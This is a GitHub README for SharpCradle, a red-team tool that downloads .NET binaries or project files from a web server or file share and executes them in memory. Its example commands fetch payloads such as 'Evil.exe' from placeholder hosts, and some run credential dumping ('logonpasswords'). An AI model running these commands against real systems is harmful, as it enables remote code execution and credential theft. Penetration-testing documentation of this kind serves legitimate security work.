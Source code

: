 # SharpCradle

Description
============

SharpCradle is a tool designed to help penetration testers or red teams download and execute .NET binaries into memory.

Contact at:
- Twitter: @anthemtotheego

Contributors: 

- Twitter: @bohops - Download .NET inline project file from web and execute funtionality

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/SCradle.PNG?raw=true "SharpCradle")
![Alt text](/SCradle_2.PNG?raw=true "")

Setup - Quick and Dirty
==============================

**Note: I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpCradle tool and open up SharpCradle.sln                         

2. Compile for correct architecture (x64 or x86), drop binary on target computer and have fun.

Note: architecture of SharpCradle and binary you are retrieving should be the same or it might throw errors.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://IP/Evil.exe <arguments to pass>```

```SharpCradle.exe -w https://IP/SharpSploitConsole_x64.exe logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\Evil.exe <arguments to pass>```

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\Evil.exe <arguements to pass>```

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

Download .NET inline project file from web:

```SharpCradle.exe -p https://192.168.1.10/EvilProject.csproj```

